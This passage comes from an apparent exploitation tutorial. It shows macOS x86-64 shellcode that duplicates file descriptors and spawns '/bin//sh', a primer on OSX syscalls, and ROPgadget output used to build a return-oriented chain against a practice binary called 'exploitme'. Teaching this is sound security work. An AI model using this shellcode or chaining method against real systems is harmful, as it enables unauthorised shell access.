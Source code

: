 ```
LC_dup2:
    mov $0x200005a, %rax          # dup2
    dec %esi
    syscall 
    jg LC_dup2

    mov $0x68732f2f6e69622f, %rax
    push %rax

    mov $0x200003b, %rax          # execve
    mov %rsp, %rdi                # "/bin//sh"
    syscall
```

Quick OSX primer: All system calls are made via the `syscall` instruction. You select the call you want with `rax`, then pass the parameters through `rdi`, `rsi`, and `rdx`. When the system call returns, `rax` holds the return value.

If you're on OSX and you give that a *.s* extension, you can compile it with clang just like you would a C++ file.

Building the return-oriented program
------------------------------------

Before continuing, you make sure you understand exactly how this works by reading up on the [return-oriented programming Wikipedia page](https://en.wikipedia.org/wiki/Return-oriented_programming) or elsewhere.

We basically need to find addresses in executable memory that we can jump to in sequence to effectively execute our above shell code. Each of these chainable addresses is referred to as a "gadget".

To find these gadgets, I'll be using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). If you run it and just pass our binary, you don't get much to work with:

```
MacBook-Pro:Desktop cbrown$ ROPgadget --binary /Users/cbrown/Desktop/exploitme             
Gadgets information
============================================================
0x0000000100000d09 : add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x0000000100000d37 : add byte ptr [rax], al ; add byte ptr [rax], al ; add rsp, 0x10 ; pop rbp ; ret
0x0000000100000d0b : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x0000000100000bd9 : add byte ptr [rax], al ; add rsp, 0x10 ; pop rbp ; ret
0x0000000100000ba7 : add byte ptr [rax], al ; pop rbp ; ret
0x0000000100000bdc : add esp, 0x10 ; pop rbp ; ret
0x0000000100000cc8 : add esp, 0x30 ; pop rbp ; ret
0x0000000100000ba3 : add esp, 0x330 ; pop rbp ; ret
0x0000000100000bdb : add rsp, 0x10 ; pop rbp ; ret
0x0000000100000cc7 : add rsp, 0x30 ; pop rbp ; ret
0x0000000100000ba2 : add rsp, 0x330 ; pop rbp ; ret
0x0000000100000d72 : jmp qword ptr [rip + 0x2c0]
0x0000000100000d07 : or byte ptr [rdx], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x0000000100000ba9 : pop rbp ; ret
0x0000000100000baa : ret
0x0000000100000c0a : ret 0xc931
0x0000000100000caa : ret 1
0x0000000100000d7a : ret 2
0x0000000100000ba5 : xor byte ptr [rbx], al ; add byte ptr [rax], al ; pop rbp ; ret
0x0000000100000cc5 : xor eax, eax ; add rsp, 0x30 ; pop rbp ; ret

Unique gadgets found: 20
```
